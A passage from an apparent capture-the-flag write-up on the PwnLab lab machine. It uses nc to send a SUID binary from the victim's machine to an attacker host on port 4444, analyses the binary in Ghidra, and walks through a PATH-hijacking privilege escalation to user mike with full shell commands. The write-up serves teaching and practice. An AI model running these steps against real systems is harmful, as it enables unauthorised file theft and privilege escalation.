 - Victim's machine:

```bash
$ cat msgmike | nc 192.168.1.171 4444
```

### Analyzing the binary

Thanks to `file` command, we already know that the binary is not stripped which means that it contains symbols that will ease the analysis.

#### ghidra decompilation

Passing the binary to `ghidra`'s decompiler, we can retrieve code close to the original source code:

![main ghidra](/assets/img/vulnhub/linux/pwnlab/ghidra.png)

The binary use `system` function to run `cat`. But there is an issue. Indeed `cat` is called without its absolute path. So if we change our `$PATH` variable and name a malicious binary `cat`, it will be executed with mike's privileges _(since it's a SUID binary)_.

### Exploitation

```bash
kane@pwnlab:~$ which bash
/bin/bash
kane@pwnlab:~$ echo "/bin/bash" > ./cat
kane@pwnlab:~$ cat ./cat
/bin/bash
kane@pwnlab:~$ chmod +x ./cat
kane@pwnlab:~$ echo $PATH
/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
kane@pwnlab:~$ export PATH=.
kane@pwnlab:~$ ./msgmike
bash: dircolors: command not found
bash: ls: command not found
mike@pwnlab:~$ id
id
bash: id: command not found
mike@pwnlab:~$ export PATH=/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
</usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games                    
mike@pwnlab:~$ id
id
uid=1002(mike) gid=1002(mike) groups=1002(mike),1003(kane)
mike@pwnlab:~$ 
```
